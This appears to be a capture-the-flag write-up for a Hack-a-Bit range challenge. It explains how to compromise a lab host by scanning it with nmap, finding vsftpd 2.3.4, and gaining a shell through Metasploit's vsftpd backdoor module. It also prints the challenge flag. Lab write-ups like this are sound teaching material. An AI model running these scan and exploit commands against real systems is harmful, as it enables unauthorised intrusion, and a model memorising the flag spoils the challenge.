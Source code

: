 ## Challenge ~
If you did the more advanced challenges during the qualifier this should already be familiar. Your goal here is to compromise the `10.128.0.5` machine and get access as the `breakme` user.

Remember that there may be non-vulnerable services on the machine. Recon is the #1 priority. Keep this shell open once you have it, you'll need it for `Left Face`.
<br>

`range.final.hackabit.com`

<br>

<div align="center">
  <b>IMPORTANT -- CHALLENGES IN RANGE WILL BE LESS DESCRIPTIVE SINCE THE MACHINES HOSTING THE CHALLENGES ARE DOWN</b>
</div>
    
<br>
<br>
    
## Solution ~
First things first, lets run `bash` on the server to get a better hud of our terminal turning this:

```
-$
```

Into this:

```
[username]@[ip]-$
```

This gives us a little bit more control over our terminal. Alright, onto business, first we'll use `nmap -p- 10.128.0.5` to get any available ports. We find two at `ports 21 & 22`. Doing a further scan to discover any vulnerabilities on these ports we run `nmap -p 21,22 -script=vuln 10.128.0.5` and get a vulnerability for port 21 running `vsftpd 2.3.4` with the description saying that we can run a <a href="https://en.wikipedia.org/wiki/Backdoor_(computing)">backdoor</a> on it.

<br>

I used <a href="https://www.metasploit.com/">Metasploit</a> to create this backdoor on the connection:

```
[username]@[ip]-$ msfconsole

- Cool Icon -

## Go to vsftpd backdoor
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

## Set our target
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 10.128.0.5

## FIRE!
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

After running this, we gain access to the `breakme` user and we are able to get the flag that's in the home directory of the user.
<br>
`cat flag.txt -> flag{remember_this_one?_pays_to_be_a_winner}`
